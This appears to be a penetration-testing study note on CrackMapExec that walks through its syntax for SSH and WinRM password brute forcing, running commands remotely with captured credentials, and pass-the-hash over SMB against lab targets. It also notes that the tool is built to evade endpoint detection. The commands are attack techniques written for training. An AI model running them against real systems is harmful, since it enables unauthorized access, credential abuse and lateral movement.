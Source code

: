# CME | CrackMapExec

"**_A swiss army knife for pentesting networks..._**" [ [Documentation](https://ptestmethod.readthedocs.io/en/latest/cme.html) ]
- CrackMapExec (a.k.a CME) is a `post-exploitation` tool that helps automate assessing the security of large Active Directory networks. 
- Built with stealth in mind, CME follows the concept of “Living off the Land”: abusing built-in Active Directory features/protocols to achieve it’s functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.

**Supported Protocols:** `WinRM`, `MSSQL`, `SMB`, `SSH`, `LDAP`, `RDP`, `FTP`

**Do This:** https://academy.hackthebox.com/course/preview/using-crackmapexec

## Contents
- [Help](#help)
- [General Syntax](#general-syntax)
- [Examples](#examples)
- [SSH](#ssh)
- [WinRM](#winrm)
- [Pass-the-Hash (SMB)](#pass-the-hash-smb)

## Help
- [StationX Cheat Sheet](https://www.stationx.net/crackmapexec-cheat-sheet/) | [KSec Cheat Sheet, old](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)
- - For help and syntax, just issue the command: `crackmapexec`, or:

```
crackmapexec -h
crackmapexec winrm -h  # for help specific to the winrm protocol
crackmapexec smb -h    # for help specific to the smb protocol, etc.
```

## General Syntax

```
crackmapexec <protocol> <target(s)> -u username -p password
# or, more complete:
crackmapexec [runtime options] <protocol> [options] [-M module] [-o module options] <target ip>
# see cheat sheet above
```

CrackMapExec can interact with various services (protocols) running on the target machine. Each can be used to perform specific tasks related to enumeration, exploitation, or lateral movement.
- WinRM, MSSQL, SMB, SSH, LDAP, RDP, FTP
- Each service/protocol has a help menu: `crackmapexec [service] -h`
- Examples: `crackmapexec smb -h`, `crackmapexec ssh -h`

Each service has multiple modules you can use: `crackmapexec [service] -L`
- `-L` - This will list out the modules available for that service/protocol

[options] - Options are specific to the service you are targeting. Here are the common options:
- `-u` : for username
- `-p` : for password
- `-h` : to get help for that module
- `-x` : COMMAND to execute a command on the target
- `-X` : PS_COMMAND to execute a PowerShell command-L list modules available for service

## Examples

```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'   # or...
crackmapexec <protocol> <target(s)> -u='username' -p='Admin!123@'
```

## SSH

```
crackmapexec ssh 192.168.61.129 -u root -p /usr/share/wordlists/rockyou.txt
# brute force an ssh login providing the username 'root' and a password list
```

## WinRM

### Syntax:

```
crackmapexec winrm [target ip] -u administrator -p /usr/share/.../unix_passwords.txt
```

You can use the `-u` switch to specify a file of possible usernames to try.  
- But, if we can get into the admin account, we don't have to do priv esc (so we test with one username, "administrator," first).
- You should get a green `[+]` if successful.

Look over the output (from the top down): 
- First line: you can see it actually connects to WinRM (wsman is an implementation of WinRM: windows management).

### Execute Commands:

If you successfully found login credentials, you can use `crackmapexec` to execute arbitrary Windows commands on the target machine. Examples:

```
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "whoami"
# You should get some happy feedback along with the results of your command execution.
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "systeminfo"
# This takes a while to run but provides a lot of information about your target system.
```

## Pass-the-Hash (SMB)

### Syntax:

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]"
```

This should indicated whether or not it works. 

If you get a green `[+]` and (`Pwn3d!`) then it works and you can try the execution of commands on the system...

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]" -x "ipconfig"
```

It should give you visual feedback about the command execution. And there you go. Execute what you want.
